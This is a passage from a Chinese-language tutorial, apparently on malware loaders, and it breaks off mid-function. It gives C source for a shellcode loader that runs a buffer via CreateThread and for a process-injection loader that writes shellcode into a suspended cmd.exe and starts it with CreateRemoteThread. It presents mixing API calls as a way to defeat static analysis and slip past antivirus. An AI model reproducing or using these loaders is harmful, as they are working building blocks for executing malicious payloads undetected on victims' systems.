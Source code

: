 ###### # CreateThread加载器-4

```C
void cr34te_thr34d_4() {
    //#include <windows.h>
    LPVOID lpvAddr = VirtualAllocExNuma(GetCurrentProcess(), NULL, 1024, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE, 0);
    RtlMoveMemory(lpvAddr, raw_buf, sizeof(raw_buf));
    DWORD pa = 0x01;
    VirtualProtect(lpvAddr, sizeof(raw_buf), 0x10, &pa);
    if (lpvAddr != NULL) {
        HANDLE s;
        s = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)lpvAddr, raw_buf, 0, 0);
        WaitForSingleObject(s, INFINITE);
    }
}
```

除了上面使用的CreateThread函数以外，理论上还有很多其他替代的函数。如"\_beginThreadex","pthread_create"。由于没有具体测试过，就不附进来了。不同函数的组合能一定程度上对代码静态分析产生干扰达到简单的绕过。



##### 1.2.3 线程劫持类加载器

###### # VirtualAllocEx加载器-1

```C
void thr34d_h1j4ck1ng_1() {
    // visual studio 2019
    SIZE_T size = 0;
    STARTUPINFOEXA si;
    PROCESS_INFORMATION pi;

    ZeroMemory(&si, sizeof(si));
    si.StartupInfo.cb = sizeof(STARTUPINFOEXA);
    si.StartupInfo.dwFlags = STARTF_USESHOWWINDOW;

    ZeroMemory(&si, sizeof(si));
    si.StartupInfo.cb = sizeof(STARTUPINFOEXA);
    si.StartupInfo.dwFlags = STARTF_USESHOWWINDOW;

    InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &size);

    BOOL success = CreateProcessA(
        NULL,
        (LPSTR)"C:\\Windows\\System32\\cmd.exe",
        NULL,
        NULL,
        true,
        CREATE_SUSPENDED | EXTENDED_STARTUPINFO_PRESENT,//有扩展启动信息的结构体
        NULL,
        NULL,
        reinterpret_cast<LPSTARTUPINFOA>(&si),
        &pi);

    HANDLE notepadHandle = pi.hProcess;
    LPVOID remoteBuffer = VirtualAllocEx(notepadHandle, NULL, sizeof raw_buf, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

    WriteProcessMemory(notepadHandle, remoteBuffer, raw_buf, sizeof raw_buf, NULL);
    HANDLE remoteThread = CreateRemoteThread(notepadHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);

    if (WaitForSingleObject(remoteThread, INFINITE) == WAIT_FAILED) {
        return;
    }
```